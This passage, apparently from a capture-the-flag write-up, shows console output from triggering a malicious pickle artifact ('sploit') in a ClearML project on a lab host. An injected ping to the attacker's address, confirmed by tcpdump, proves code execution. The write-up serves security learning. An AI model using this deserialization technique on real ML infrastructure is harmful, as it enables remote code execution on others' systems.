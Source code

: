 ```
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring

[*] Reviewing / Triggering Deserialization
3 task found when searching for `{'project_name': 'Black Swan', 'task_name': '0xdfping', 'include_archived': True}`
Selected task `0xdfping` (id=80f161137f6a4672b3523416095143b3)
{'name': 'sploit', 'size': None, 'type': 'pickle', 'mode': <ArtifactModeEnum.output: 'output'>, 'url': 'http://files.blurry.htb/Black%20Swan/0xdfping.80f161137f6a4672b3523416095143b3/artifacts/sploit/pickle_artifact.pkl', 'hash': None, 'timestamp': datetime.datetime(2024, 6, 10, 13, 41, 7), 'metadata': {}, 'preview': None}
PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
64 bytes from 10.10.14.6: icmp_seq=1 ttl=64 time=0.026 ms
--- 10.10.14.6 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.026/0.026/0.026/0.000 ms

```

Not only can I see that the `type` did update, but also there’s the output of my `ping` command at the bottom! I can see it at `tcpdump` as well (listening on `lo` to get localhost data):

```

oxdf@hacky$ sudo tcpdump -ni lo icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
13:39:37.823165 IP 10.10.14.6 > 10.10.14.6: ICMP echo request, id 5, seq 1, length 64
13:39:37.823172 IP 10.10.14.6 > 10.10.14.6: ICMP echo reply, id 5, seq 1, length 64

```